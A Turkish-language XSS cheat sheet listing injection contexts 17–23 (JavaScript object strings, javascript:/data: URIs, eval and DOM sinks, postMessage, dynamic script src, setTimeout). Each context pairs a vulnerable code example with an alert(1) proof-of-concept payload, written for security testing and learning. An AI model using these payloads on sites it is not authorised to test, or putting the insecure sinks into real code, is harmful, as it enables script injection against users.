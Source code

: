 <h1>CONTEXTS</h1>
<br>

<h2>🔹 17. JavaScript Object Context (JSON gibi)</h2>
<h4>Input, JSON string içinde gömülür ama frontend tarafı JS olarak parse edip kullanıyorsa,<br>
input içindeki kaçış karakterleri doğru işlenmezse JS kodu enjeksiyonu olur.

</h4><br>

📌 Örnek:  
`{"name":"PAYLOAD"}`  
<br>
🎯 Exploit:  
```html
\";alert(1);//
```
<br>



<h2>🔹 18. JavaScript URI inside - form / object / embed</h2>
<h4>form action, object data veya embed src attribute’larına javascript:<br>
veya data URI konursa, input kontrolsüzse XSS oluşabilir.
</h4><br>

📌 Örnek:  
`<form action="javascript:alert(1)">`  
veya  
`<embed src="data:text/html;base64,...">`
<br>

🎯 Exploit:  
```html
javascript:alert(1)
```
<br> 



<h2>🔹 19. Base64 / Data URI Context</h2>
<h4>Bazı yerlerde data: URI’leriyle (örneğin iframe src="data:text/html,...") XSS yapılabilir.<br>
Input bu URI içine konulursa ve sanitize edilmezse JS kodu çalışır.</h4><br>

📌 Örnek:  
`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>`  
<br>
🎯 Exploit:  
```html
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
veya
```html
data:text/html,<script>alert(1)</script>
```

<br>


<h2>🔹 20. XHR / Fetch Injection via DOM Sinks</h2>
<h4>JavaScript’in fetch(), XMLHttpRequest(), eval() gibi fonksiyonlarına input doğrudan veriliyorsa,<br>
kötü amaçlı inputla XSS tetiklenebilir. Özellikle eval() çok tehlikelidir.</h4><br>

📌 Örnek:  
`eval(location.hash.substring(1))`
<br>  
🎯 Exploit:  
```bash
http://site.com/#alert(1)
```
<br>



<h2>🔹 21. WebSocket / PostMessage / Custom Protocol Context</h2>
<h4>WebSocket veya postMessage gibi API’ler ile client’a veri yansıtılıyorsa ve bu veriler<br>
DOM’a yazılıyorsa, kontrolsüz inputla XSS çıkabilir.</h4><br>

📌 Örnek:  
```js
window.addEventListener("message", e => {
  document.body.innerHTML = e.data;
});
```
<br>

🎯 Exploit:  
```html
<img src=x onerror=alert(1)>
```
<br>



<h2>🔹 22. Script src dynamically built</h2>
<h4>JavaScript kodunda script tag’i oluşturulup src attribute’u dinamik olarak inputla set ediliyorsa,<br>
input doğru kontrol edilmezse, dışardan kötü amaçlı script çağrısı yapılabilir.

</h4>
  <br>

📌 Örnek:  
```js
var script = document.createElement("script");
script.src = "/api/" + userInput;
document.body.appendChild(script);
```
<br>
🎯 Exploit:  

```html
";alert(1)//
```
<br>



<h2>🔹 23. SetTimeout / setInterval / Function constructor</h2>
<h4>Input, setTimeout/setInterval veya Function constructor parametresi olarak kullanılırsa,<br>
doğrudan JS kodu olarak çalıştırılabilir ve XSS olabilir.</h4><br>

📌 Örnek:  
`setTimeout(userInput, 1000)`  
<br>
🎯 Exploit:  
```js
alert(1)
```
<br>
